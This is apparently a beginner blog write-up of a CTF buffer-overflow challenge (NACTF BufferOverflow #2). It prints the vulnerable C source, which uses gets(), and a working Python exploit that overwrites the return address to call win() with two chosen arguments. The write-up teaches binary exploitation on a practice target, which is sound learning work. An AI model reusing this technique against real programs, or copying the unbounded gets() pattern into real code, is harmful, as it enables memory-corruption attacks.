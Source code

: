 ```yaml
---
layout: post
title: BufferOverflow-#2 
tags: [Binary Exploitation, BufferOverflow]
comments: true
---
```


This is a writeup on how i solved **BufferOverflow #2** from NACTF. I hope this will help beginners in binary exploitation while doing ctfs. This is a Beginner level challenge.

**CTF : https://www.nactf.com/**

## Lets start..

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.1.png)

Download the binary to our system, make it executable and run the binary.

Like the previous challeneg, this binary is also just printing the input back to us, behaving like a echo program.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.2.png)

Lets analyse the source code of this binary to know how it is working.

Here is the source code:
~~~
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
    if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
    {
        puts("Close, but not quite.");
        exit(1);
    }
    printf("You win!\n");
    char buf[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
    }
    else
    {
        fgets(buf, sizeof(buf), f);
        printf("flag: %s\n", buf);
    }
}
void vuln()
{
    char buf[16];
    printf("Type something>");
    gets(buf);
    printf("You typed %s!\n", buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
~~~
From source code it is clear that we have to do the way we did for BufferOverflow #1 but we have to pass 2 arguments to win() function.

The function is checking the arguments we passed, we will get flag only after we pass the arguments in corrrect way.

But important thing is to note is the type of arg1 which is long long, which is 8 byte long.

Check more about 'C' data types.

So

arg1 =  0x0000000014B4DA55
arg2 =  0xF00DB4BE

Lets do it.

Like before first step is to controll eip register. I was managed to control eip register as you can see on the below image.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.3.png)

So now we controlled eip, controlled eip with 4 B's (BBBB=0X42424242).

Next step is to find the address of win() function and overwrite eip with that so win() function will get executed.

On  GDB type **disas win** and take the starting address of win() function.

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.4.png)

adress of win() = 0x080491c2

Now we can craft our payload...

**payload = "A"*28 + address_of_win() +dummy_return + arg1 + arg2**

Create a file called exploit.py with the below contents.

exploit.py:
~~~
buffer = ""

#junk data
buffer += "A"*28 

#address of win() 0x080491c2
buffer += "\xc2\x91\x04\x08"

#dummy return address 0xf7e0b7a0
buffer += "\xa0\xb7\xe0\xf7"

#arg1 0x0000000014B4DA55
buffer += "\x55\xda\xb4\x14\x00\x00\x00\x00"

#arg2 0xF00DB4BE
buffer += "\xbe\xb4\x0d\xf0"

print buffer 
~~~

Lets do the final thing....

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.5.png)

So it is done.

Lets do it in the remote server...

![Crepe](https://raw.githubusercontent.com/Masscan/masscan.github.io/master/assets/img/bo2.6.png)

We got the flaaaaag ...    :)
